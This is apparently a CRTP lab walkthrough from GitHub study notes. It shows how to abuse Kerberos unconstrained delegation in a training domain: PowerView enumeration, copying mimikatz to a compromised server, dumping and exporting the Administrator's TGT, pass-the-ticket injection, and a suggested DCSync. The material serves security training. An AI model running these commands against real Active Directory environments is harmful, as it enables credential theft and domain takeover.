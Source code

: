 ### Discover domain computers that have unconstrained delegation
Domain Controllers always show up, ignore them
```
 . .\PowerView_dev.ps1
Get-Netcomputer -UnConstrained
Get-Netcomputer -UnConstrained | select samaccountname
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/92da62fa-7cae-4a99-bdae-ccdf0facf993)

Two devices have unconstrained delegation feature. The first one is DC which always having UnConstained Delegation in it so we will ignore it

we will focus on dcopr-appsrv. to apply the attack you must be hacked the machine and have the local admin privilege 

we need Local Administrator privilege because we need to get the TGT using mimikatz 

here the appadmin user is a local administrator on the dcorp-appsrv

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/cb59fee8-0856-423f-8d7b-910a7b02f638)

now we already accessed the computer that has unconstrained delegation 

now load mimikatz to the computer
```
$sess = New-PSSession -ComputerName dcorp-appsrv

Copy-Item -Path C:\AD\Tools\mimikatz_trunk\x64\mimikatz.exe -Destination C:\Users\Administrator\Desktop\ -ToSession $sess
```
Get all the TGT tickets that are on the memory
```
.\mimikatz.exe "sekurlsa::tickets" "exit"
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/e224b4b7-43e7-4d98-b6d3-0bc5729a797e)

TGT ticket for the administrator on the memory

now you need to export the TGT ticket
```
.\mimikatz.exe "sekurlsa::tickets /export" "exit"
```
now you need to inject the ticket in the session that you have
```
.\mimikatz.exe "kerberos::ptt [0;8d2043]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi" "exit"
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/cdf0cf1e-dd99-41c8-91fe-bd6fca17f178)

now you can explore DC files and run some commands OR you can perform DCSync attack and get the NTLM Hash of the Administrator
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/a1b480db-c2a1-4cb5-985e-395c337dea3c)
